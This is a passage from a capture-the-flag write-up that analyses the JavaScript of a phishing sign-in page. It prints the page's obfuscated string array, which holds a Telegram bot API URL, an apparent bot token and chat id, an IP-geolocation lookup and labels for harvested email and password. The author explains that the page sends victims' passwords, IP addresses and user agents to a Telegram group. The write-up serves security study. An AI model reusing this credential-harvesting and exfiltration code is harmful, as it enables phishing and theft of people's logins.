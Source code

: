 **The first `<script>` element is just displaying the current year:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401152628.png)

So we can just ignore that.

How about the second `<script>` element?

**It looks very complex to me... However function `F()` stands out to me:**
```js
var AC = ['val', '12ZidQyC', '20AFlrCY', 'Email: ', '63792quNVYn', 'substring', 'append', 'Region : ', 'slice', 'body', '139437pXYFEK', '#UserEmail', 'toUpperCase', 'click', 'Useragent : ', 'href', '88GpIPQU', '904cdojGd', '#submit', '#dname', '<img class=\"mb-4\" src=\"https://logo.clearbit.com/', 'lastIndexOf', 'charAt', 'Country : ', 'DateSent : ', '10311YpzJVd', '#dlogo', '#emailtext', 'City : ', '***', '#DateSent', 'toLocaleDateString', 'Password : ', 'city', 'text', 'url(\'https://logo.clearbit.com/', 'Password field missing!', 'Format : ', '<link rel=\"icon\" href=\"https://logo.clearbit.com/', ' Cloud Storage', 'https://ip.seeip.org/geoip', 'style', 'https://archive.org/details/VoiceMail_173', 'post', '/sendMessage', '\" alt=\"\" width=\"150\"  >', '4716964xBODFJ', '3724320KAqSuZ', '5852841790', 'Date Filled : ', '#inputPassword', '380874lxWkrT', '1170928pBbGzs', 'https://api.telegram.org/bot', 'head', '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];
```

That weird array is interesting.

- It has an `archive.org` link: `https://archive.org/details/VoiceMail_173`
- Telegram API bot link: `https://api.telegram.org/bot`
- Grab public IP link: `https://ip.seeip.org/geoip`

Hmm... It seems like when we click "Sign in", ***it'll forward our password, IP address, `User-Agent` to the Telegram group??***

**Let's try to type some random password and send it:**
